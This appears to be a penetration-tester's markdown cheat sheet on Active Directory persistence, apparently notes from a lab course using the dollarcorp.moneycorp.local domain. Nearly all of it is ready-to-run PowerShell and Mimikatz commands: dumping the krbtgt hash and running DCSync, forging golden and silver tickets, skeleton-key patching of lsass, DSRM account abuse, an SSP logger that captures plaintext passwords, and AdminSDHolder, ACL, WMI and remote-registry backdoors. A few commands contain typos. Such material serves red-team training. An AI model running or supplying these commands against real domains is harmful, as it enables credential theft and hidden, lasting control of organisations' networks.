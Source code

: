 ## AD Persistence

- [Get krbtgt Hash](#get-krbtgt-hash)
- [Golden Ticket](#golden-ticket)
- [Silver Ticket](#silver-ticket)
- [Skeleton Key](#skeleton-key)
- [DSRM (Directory Services Restore Mode)](#dsrm--directory-services-restore-mode-)
- [SSP (Security Support Provider)](#ssp--security-support-provider-)
- [ACL Persistence](#acl-persistence)
    + [SDPROP and AdminSDHolder](#sdprop-and-adminsdholder)
    + [Domain Root Object ACL](#domain-root-object-acl)
    + [DCSync](#dcsync)
    + [WMI Security Descriptors](#wmi-security-descriptors)
    + [Remote Registry](#remote-registry)
- [MORE](#more)

### Get krbtgt Hash
---
```powershell
# On DC as a DA
C:> Invoke-Mimikatz -Command '"lsadump:lsa /patch"'

# DC-Sync attack. DA rights required
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user_<domain>\krbtgt"'
```
### Golden Ticket
---
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Silver Ticket
---
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
```
### Skeleton Key
---
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
---
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
- Following steps need to be done in a DC session with DA rights
```powershell
# 1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

# (OPTIONAL) 2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

# 3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
# 4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# 5. Pass the hash. FQDS domain and NTLM Hash obtained for Administrator in step 1.
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
---
We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### ACL Persistence
---
#### SDPROP and AdminSDHolder

  AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.
Once you have agained Domain Admin privileges, AdminSDHolder container can be abused by backdooring it by giving your user GenericAll privileges, which effectively makes that user a Domain Admin.
```powershell
#`sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
# With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
# Load Module
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
#### Domain Root Object ACL
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
#### DCSync
```powershell
# Check if a user has DCSync rights. Gives nothing if no rights 
C:> Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student76 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### WMI Security Descriptors

```powershell
# To be able to run WMI commands
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemoteWMI -SamAccountName <username> -ComputerName <hostname_full_FQDN> -namespace 'root\cimv2' -Verbose
```
```powershell
# Give permissions to be able to PS Remoting
# UNSTABLE SINCE SOME M$ PATCHES
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemotePSRemoting –SamAccountName <username> -ComputerName <hostname_full_FQDN> -Verbose

# Now can run WMI on host
C:> gwmi -class win32_operatingsystem -ComputerName <host>
```
#### Remote Registry
```powershell
# Using RACE, with admin privs on remote machine
C:> Add-RemoteRegBackdoor -ComputerName <hostname> -Trustee <username> -Verbose

# From a shell as <username>, not DA rights
# As <username> from before, retrieve machine account hash:
C:> Get-RemoteMachineAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve local account hash:
C:> Get-RemoteLocalAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve domain cached credentials:
C:> Get-RemoteCachedCredential -ComputerName <hostname> -Verbose

# With this machine account hash can create Silver Tickets
C:> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_fqdn> /sid:<domain_sid> /target:<hostname_fqdn> /service:HOST /rc4:<host_hash> /user:Administrator /ptt"'
```
### MORE





